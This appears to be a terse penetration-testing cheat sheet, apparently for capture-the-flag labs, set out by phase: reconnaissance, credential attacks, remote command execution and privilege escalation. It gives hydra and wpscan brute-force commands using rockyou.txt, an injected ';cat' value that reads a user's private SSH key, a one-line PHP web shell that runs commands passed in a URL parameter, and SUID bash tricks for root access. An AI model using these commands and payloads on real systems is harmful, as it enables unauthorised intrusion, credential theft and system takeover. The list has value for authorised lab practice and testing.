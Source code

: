 #Reconnaissance

sudo nmap -sC -sV -v -p- 10.10.10.10 –min-rate 10000

dirsearch -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u 10.10.10.10

#Getting Credentials

hydra -L users.txt -u -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -s 2222 -V

mysql -h 10.10.70.250 -u root -p

grep -r 'looking_for_this' /in/this/directory

wpscan -U username --url http://website.com/wordpress -P /usr/share/wordlists/rockyou.txt

;cat /home/user/.ssh/id_rsa to get the SSH key

ftp 10.10.10.10 

touch id.rsa 

ssh -i id.rsa user@10.10.10.10

#Getting Remote Command Execution

<?php echo passthru($_GET['cmd']); ?>

#Privledge Escalation

chmod +s /bin/bash 
cp /bin/bash /home/user/elevated-shell; chmod +s /home/user/elevated-shell

https://www.revshells.com/

